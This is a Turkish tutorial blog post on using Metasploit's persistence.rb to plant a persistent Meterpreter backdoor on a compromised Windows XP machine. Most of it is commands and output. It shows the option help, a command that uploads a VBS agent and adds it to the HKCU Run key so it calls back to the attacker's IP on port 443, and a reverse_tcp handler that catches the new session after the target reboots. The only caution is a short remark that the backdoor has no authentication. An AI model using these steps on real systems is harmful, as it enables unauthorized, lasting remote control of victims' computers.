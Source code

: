 ```yaml
---
draft: false

title:  'MSF Meterpreter Kalıcı Backdoor'
date: '2017-06-15T13:57:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için Metasploit Framework içinde kullanabileceğiniz bir diğer yöntem de\_persistence.rb\_script kodunu kullanmaktır." 
 
url:  /tr/msf-meterpreter-kalici-backdoor/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Persistence.rb



Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için Metasploit Framework içinde kullanabileceğiniz bir diğer yöntem de `persistence.rb` script kodunu kullanmaktır.



Bu yöntem sayesinde, hedef bilgisayar güncellense bile tekrar bağlanma imkanınız bulunmaktadır. Ayrıca, hedef sistemin tekrar başlatılması da bağlantı yapmayı etkilemeyecektir.



Bir önceki konuda, `metsvc` için yaptığımız uyarıyı burada da tekrarlayalım. `persistence.rb` arka kapısı, bağlantı için herhangi bir oturum bilgisi kullanmaz. Bu açıklığı keşfeden herkes bağlantı sağlayabilir.



Hedef sistemde meterpreter oturum açtıktan sonra `persistence.rb` script kodunu kullanmadan önce yardım bilgilerini görüntüleyelim ve bize hangi imkanları sağladığını görelim.


```bash
meterpreter > run persistence -h

**[!]** Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
**[!]** Example: run post/windows/manage/persistence_exe OPTION**=**value **[**...]
Meterpreter Script for **creating a persistent backdoor on a target host.

OPTIONS:

    -A   Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location **in **target host to write payload to, **if **none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S   Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T   Alternate executable template to use
    -U   Automatically start the agent when the User logs on
    -X   Automatically start the agent when the system boots
    -h   This help menu
    -i   The interval **in **seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening for the connect back
```



Aşağıdaki `persistence -U -i 5 -p 443 -r 192.168.1.71` komutu hangi işlemleri yapıyor?



`-U`, bir kullanıcı oturum açtığında bizim bilgisayarımıza otomatik bağlantı yapılmasını sağlar.



`-i 5` Karşe taraftaki `persistence.rb` script kodu her 5 saniyede bir bize bağlanmaya çalışır.



`-p 443` bizim dinleme yapan bilgisayarımızın dinleme yaptığı port numarasıdır.



`-r 192.168.1.71` bizim dinleme yapan bilgisayarımızın IP numarasıdır.


```bash
meterpreter > run persistence -U -i 5 -p 443 -r 192.168.1.71
> Creating a persistent agent: LHOST**=**192.168.1.71 LPORT**=**443 (interval**=**5 onboot**=**true)
> Persistent agent script is 613976 bytes long
> Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
> Agent executed with PID 492
> Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
> Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
> For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter >
```



Verdiğimiz komut sonucunda başlatılan script, çıktılarda da görüleceği gibi işimiz tamamlandığında log temizleme işleminin nasıl yapılabileceğini de gösteriyor.


```bash
multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
```



Scriptin çalışıp çalışmadığını ve otomatik bağlantı yapıp yapmadığını, hedef bilgisayarı tekrar başlatarak anlayabiliriz. Hedef bilgisayarı yeniden başlatalım.


```bash
meterpreter > reboot
Rebooting...
meterpreter > exit

> Meterpreter session 3 closed.  Reason: User exit
```



Dinleyici `exploit/multi/handler` modülünü tekrar başlatalım.


```bash
msf exploit(ms08_067_netapi) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.71
LHOST => 192.168.1.71
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

> Started reverse handler on 192.168.1.71:443
> Starting the payload handler...
```



Hedef bilgisayar tekrar başladığında, oturum açılır açılmaz yerel bilgisayara bağlantı, aşağıda görüldüğü gibi tekrar sağlanacaktır.


```bash
> Sending stage (748544 bytes) to 192.168.1.161
> Meterpreter session 5 opened (192.168.1.71:443 -> 192.168.1.161:1045) at 2010-08-21 12:31:42 -0600

meterpreter > sysinfo
Computer: XEN-XP-SP2-BARE
OS      : Windows XP (Build 2600, Service Pack 2).
Arch    : x86
Language: en_US
meterpreter >```
